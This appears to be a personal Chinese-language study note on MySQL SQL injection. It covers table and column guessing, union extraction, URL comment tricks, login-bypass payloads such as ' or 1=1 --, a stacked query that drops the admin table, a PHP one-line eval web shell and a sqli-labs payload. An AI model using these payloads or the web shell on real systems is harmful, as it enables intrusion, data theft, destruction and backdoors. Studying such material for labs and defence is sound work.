

```
mysql的注入


select * from hack
select * from where id =1;
select username from hack where id=1;

exsits()
select*from user where id =1 and exists(select*from hack) 判断有没有
#猜数据库中有没有这个表名字   ——————-第一步（猜表名）
select*from user where id=1 and exists(select username from hack)；
#猜字段     				————————第二部（猜字段）
order by N
select * from hack  order by n；
按照查询的第几个字段排序，mysql中n>真实字段 就会报错
						  ———————---第三步（猜字段个数）


union联合查询
select * from news union select*from news2(必须保证new与new2字段相同)
 
select *from user union select username ,password from hack；
(通过修改后者的字段来查到想要的内容)

select* from hack uonion select 1,2,3 from 123 ；直接显示123
```

```

注释 #与 “-- ” 
另外-- （这里有一个空格，--空格）在SQL内表示注释，但在URL中，如果在最后加上-- ，浏览器在发送请求的时候会把URL末尾的空格舍去，所以我们用--+代替-- ，原因是+在URL被URL编码后会变成空格。
```

```
源码中找字段名
input username
注入工具

```

```
密码绕过   逻辑表达式取真
select * from admin where  username='admin'and  password='password'

(2)' or 1=1 --

select * from admin where  username='' or 1=1 -- 'and  password='password'
(2)	1'or 1=1or 1'

	select *from admin where username='1'or 1=1 or'1'and password=''
	
(3) 'or 1=1;drop table admin --
因为sql语句具有多语句执行的功能 直接就删除了admin表

```

```php
一句话木马
php :<?php @eval($_POST['pass'])?>
```

注入分为两类

数字型注入与字符型注入

```
数字型：select * from table where id=8;
字符型：select * from table where id='8'
```


```
sqli-labs
1.
id=-1' union select 1,2,3 --+
```




